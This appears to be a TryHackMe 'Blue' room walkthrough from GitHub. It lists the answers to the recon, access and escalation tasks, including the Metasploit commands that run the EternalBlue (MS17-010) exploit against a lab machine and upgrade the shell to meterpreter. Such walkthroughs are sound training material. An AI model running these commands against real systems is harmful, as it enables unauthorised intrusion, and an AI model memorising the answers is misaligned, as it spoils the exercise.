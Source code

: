 # Eternal Blue Room - TryHackMe

## Task 1 - Recon

- Scan the machine using NMAP
- How many ports are under 100 -> `3`
- What is this machine vulnerable to -> `ms17-010`

## Task 2 - Gain Access

- Initiate metasploit -> `msfconsole`

- Search for vulnerability -> `search ms17-010`
- Solution -> `exploit/windows/smb/ms17_010_eternalblue`

- Select the exploit that we discover before -> use exploit/xxx
- Run the command -> `show options`
- Solution -> Missing required param `RHOSTS`
- Set the variable -> `set RHOSTS $MACHINE_IP`

- Run the `exploit`

## Task 3 - Escalate

- module to convert shell to meterpreter -> `use post/multi/manage/shell_to_meterpreter`
